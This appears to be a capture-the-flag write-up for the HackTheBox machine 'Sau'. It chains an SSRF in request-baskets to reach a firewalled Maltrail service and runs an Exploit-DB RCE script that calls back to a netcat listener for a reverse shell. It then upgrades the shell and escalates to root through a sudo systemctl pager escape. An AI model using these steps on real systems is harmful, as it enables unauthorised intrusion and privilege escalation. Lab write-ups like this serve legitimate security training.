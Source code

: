 # Sau

## Overview

Hello everyone, In this blog we are going to solve Sau from HackTheBox.

Link for the machine : [https://app.hackthebox.com/machines/Sau](https://app.hackthebox.com/machines/Sau)

Lets Start 🙌

Connect to the HTB server by using the OpenVpn configuration file that’s generated by HTB.

\[ [Click Here](https://help.hackthebox.com/en/articles/5185687-introduction-to-lab-access) to learn more about how to connect to vpn and access the boxes. ]

After connecting to the vpn service, click on Join Machine to access the machine’s ip.

After joining the machine you can see the IP Address of the target machine.

***

## Reconnaissance

First I started by scanning for open ports on the target machine.

<figure><img src="../.gitbook/assets/Untitled (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Untitled 1 (5).png" alt=""><figcaption></figcaption></figure>

From the response of the `nmap` , there are 3 open ports of which one is SSH running on port 22, on port 80 HTTP service is running, but its filtered by firewall and the other one is running on port `55555` , which is unknown, but returns a response for HTTP GET request.

On visiting port 55555 on via browser, It returned a website.

***

## Enumerating the Website

<figure><img src="../.gitbook/assets/Untitled 2 (5).png" alt=""><figcaption></figcaption></figure>

In the website is running the `request baskets` service version `1.2.1`. On searching about this service on google, found this:&#x20;

{% embed url="https://www.exploit-db.com/exploits/51675" %}

&#x20;which proves that the website is vulnerable to SSRF vulnerability. To exploit this vulnerability first create a new basket.

<figure><img src="../.gitbook/assets/Untitled 3 (5).png" alt=""><figcaption></figcaption></figure>

Next make a note on the basket name and the access token and click on open basket.

<figure><img src="../.gitbook/assets/Untitled 4 (5).png" alt=""><figcaption></figcaption></figure>

After opening the basket click on the settings icon on the top right corner.

<figure><img src="../.gitbook/assets/Untitled 5 (5).png" alt=""><figcaption></figcaption></figure>

It open a configuration dialog box.

<figure><img src="../.gitbook/assets/Untitled 6 (5).png" alt=""><figcaption></figcaption></figure>

On the configuration dialog box, fill the details as shown in the above figure and click apply. By configuring as mentioned above, we are trying to access the HTTP service running on port `80` which was blocked by the firewall on the target machine by leveraging the SSRF vulnerability.

Basically what ever URL we configure on request basket, the request basket will send a GET request on its behalf and fetch the results for us, in our case it acts like a proxy to fetch the website, which is not accessible to use from the outside network, but is accessible to request basket application, since it is running on the same network on which the web service is running.

<figure><img src="../.gitbook/assets/Untitled 7 (4).png" alt=""><figcaption></figcaption></figure>

Now open the link \[ mentioned in the above picture, link might be different in your case ] in a new tab.

<figure><img src="../.gitbook/assets/Untitled 8 (4).png" alt=""><figcaption></figcaption></figure>

We can see a website which is running `Maltrail v0.53`, nothing else is interesting on the website. So I started searching about `Maltrail v0.53`, and found this&#x20;

{% embed url="https://www.exploit-db.com/exploits/51676" %}

from which we can devise that the service is vulnerable to RCE.

***

## Getting the User Flag

I downloaded the payload to give it a try.

{% embed url="https://www.exploit-db.com/download/51676" %}

<figure><img src="../.gitbook/assets/Untitled 9 (3).png" alt=""><figcaption></figcaption></figure>

Before executing the payload, I started a `netcat` listener on port 8000.

<figure><img src="../.gitbook/assets/Untitled 10 (3).png" alt=""><figcaption></figcaption></figure>

Now its time to execute the payload.

Command: `python3 51676 <HTB_VPN_TUN_IP> 8000 <the_request_basket_address_that_we_used_to_access_the_web_service>`

<figure><img src="../.gitbook/assets/Untitled 11 (3).png" alt=""><figcaption></figcaption></figure>

After executing the exploit, check the `netcat` listener.

<figure><img src="../.gitbook/assets/Untitled 12 (3).png" alt=""><figcaption></figcaption></figure>

We successfully got the connection back. Now we got our initial access to the target machine. First I upgraded the shell.

Command: `python3 -c 'import pty; pty.spawn("/bin/bash")'`

<figure><img src="../.gitbook/assets/Untitled 13 (3).png" alt=""><figcaption></figcaption></figure>

And also I found the user flag.

<figure><img src="../.gitbook/assets/Untitled 14 (3).png" alt=""><figcaption></figcaption></figure>

***

## Getting the Root Flag

Now its time to escalate our privileges and find the root flag.

I was looking out for some common privilege escalation vectors and found this.

<figure><img src="../.gitbook/assets/Untitled 15 (1).png" alt=""><figcaption></figcaption></figure>

The user `puma` can run the command `/usr/bin/systemctl status trail.service` as `sudo` without entering the password. I checked GTFObins regarding this and found this&#x20;

{% embed url="https://gtfobins.github.io/gtfobins/systemctl/#sudo" %}

<figure><img src="../.gitbook/assets/Untitled 16 (1).png" alt=""><figcaption></figcaption></figure>

Thus if we run the command `sudo /usr/bin/systemctl status trail.service` , then run the command `!sh` after entering into the less page, we can escalate our privileges as root.

<figure><img src="../.gitbook/assets/Untitled 17 (1).png" alt=""><figcaption></figcaption></figure>

Now we have successfully escalated our privileges as root. Now its time to find the root flag.

<figure><img src="../.gitbook/assets/Untitled 18 (1).png" alt=""><figcaption></figcaption></figure>

We have successfully found the root flag.

Thank You…….
